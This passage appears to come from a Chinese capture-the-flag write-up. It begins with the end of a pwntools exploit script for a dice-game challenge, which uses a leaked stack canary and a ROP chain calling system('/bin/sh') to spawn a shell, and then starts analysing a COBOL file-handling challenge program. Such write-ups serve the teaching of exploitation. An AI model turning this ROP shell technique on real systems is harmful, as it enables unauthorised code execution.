 ```
        if start == [dice_count[extra_die_face], extra_die_face]:
            liar()
        else:
            bet(extra_die_face, dice_count[extra_die_face], True)
    except:
        bet(extra_die_face, dice_count[extra_die_face], False)

    p.recvuntil("loses a die.\n")
    if p.recv(19) == "What is your name? ":
        break
    else:
        total -= 1

# ROP now
payload = 'A' * 0x208
payload += p64(canary) + p64(0)
payload += flat([pop_rdi_rbp, str_bin_sh, 0, system])
p.sendline(payload)

success("libc_base: " + hex(libc_base))
success("heap_base: " + hex(heap_base))
success("stack_addr: " + hex(stack_addr))
success("canary: " + hex(canary))

p.interactive()
```



## THE COBOL JOB

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E5%88%86%E6%9E%90"></a>题目分析

一个COBOL语言写的程序，实现一个简单的菜单，提供创建、打开、读、写、关闭、复制文件的操作：

```
IDENTIFICATION DIVISION.
PROGRAM-ID. CBLCHALL1.

ENVIRONMENT DIVISION.
INPUT-OUTPUT SECTION.
FILE-CONTROL.
*    SELECT SYSIN ASSIGN TO KEYBOARD ORGANIZATION LINE SEQUENTIAL.

DATA DIVISION.
FILE SECTION.
*FD SYSIN.

WORKING-STORAGE SECTION.
01 itr.
05 J PIC 9(2).
01 looping.
05 opt PIC 9(1).
88 ENDLOOP VALUE HIGH-VALUES.
05 rep PIC A(1).
01 OPT-6.
05 fname61 PIC X(256).
05 fname62 PIC X(256).
01 FILES.
05 fnm PIC X(256).
05 fidx PIC 9(1).
05 foff PIC 9(10) VALUE ZERO BINARY.
05 fnmp PIC X(256) OCCURS 16 TIMES.
```